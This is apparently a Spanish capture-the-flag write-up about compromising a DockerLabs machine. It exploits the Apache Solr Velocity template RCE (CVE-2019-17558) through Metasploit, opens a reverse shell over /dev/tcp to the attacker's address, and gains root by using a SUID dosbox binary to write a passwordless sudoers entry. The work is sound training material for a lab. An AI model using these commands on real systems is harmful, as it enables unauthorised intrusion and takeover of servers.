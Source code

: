 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/cfae8818-09ab-4371-8c09-bd94fd0bdd9c)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **80/tcp (HTTP ):** Apache httpd 2.4.59 (Debian)
2.  **8983/tcp (HTTP ):** Apache Solr

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Y se encontró la pagina con una imagen de un pingüino y un ninja.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/85b31562-88d4-43e0-b6e5-d670690e5dec)

### Puerto 8983
Al identificar que el puerto 8983 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador con el puerto. Y se encontró la pagina de Solr admin.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/7a124dc4-5c30-409c-96df-ac5b64abdfc0)

# Fase 2- Exploración

#### FeroxBuster
```
200      GET       35l       63w      837c http://172.17.0.2/index.html
200      GET     7980l    46484w  3653155c http://172.17.0.2/pinguninja.png
200      GET       35l       63w      837c http://172.17.0.2/
[>-------------------] - 5s     38342/1245780 3m      found:3  
```
Se encontró la imagen .png y el directorio index.html que no lleva a ningún lado.

##### Solr
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/f975b1f5-c3c0-425c-88c7-bd2ac16d01c0)
Encontramos un exploit en Exploit-DB.

# Fase 3- Explotación

#### 2019-17558
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2076a957-9c48-477e-aeee-f0d5484071ed)
```python
msf6 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
msf6 exploit(multi/http/solr_velocity_rce) > set RHOST 172.17.0.2
RHOST => 172.17.0.2
```
Le proporcionamos lo que nos pide el exploit.


Escribimos run para mandar el exploit y nos da una shell, si escribimos el comando `ipconfig` vemos que estamos en la maquina `172.17.0.2` estamos dentro.
```
> Ipconfig
---------------------------------
Name         : eth0 - eth0
Hardware MAC : 02:42:ac:11:00:02
MTU          : 1500
IPv4 Address : 172.17.0.2
IPv4 Netmask : 255.255.0.0



--------------------------------
Name         : lo - lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
```

# Fase 4- Privilegios

#### sudo -l
```python
meterpreter > shell
Process 3 created.
Channel 3 created.
script /dev/null -c bash
Script started, output log file is '/dev/null'.
ninhack@bc53834a3023:/opt/solr/server$ sh -i >& /dev/tcp/192.168.1.2/443 0>&1
sh -i >& /dev/tcp/192.168.1.2/443 0>&1
```
Ejecutamos esos comandos para enviarnos una shell mas cómoda a nuestra maquina atacante.


```python
ninhack@bc53834a3023:/opt/solr/server$ sudo -l
[sudo] password for ninhack: 
sudo: a password is required
ninhack@bc53834a3023:/opt/solr/server$ 
```
Al ejecutar el comando `sudo -l` nos dice que proporcionemos una contraseña para el usuario `ninhack` tocara usar find.

#### find

```python
ninhack@bc53834a3023:/opt/solr/server$> find / -perm -4000 -user root 2>/dev/null
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
Tenemos permisos de ejecución de dosbox. 

#### Binario Dosbox
Si consultamos a gtfobins nos dice que para escalar tenemos que hacer lo siguiente: 
```python
LFILE='\etc\sudoers.d\ninhack' dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL) NOPASSWD: ALL >c:$LFILE" -c exit
DOSBox version 0.74-3
Copyright 2002-2019 DOSBox Team, published under GNU GPL.
---
ninhack@bc53834a3023:/opt/solr/server$ sudo su
root@bc53834a3023:/opt/solr/server# whoami
root
root@bc53834a3023:/opt/solr/server# 
```
Y listo, somos root!

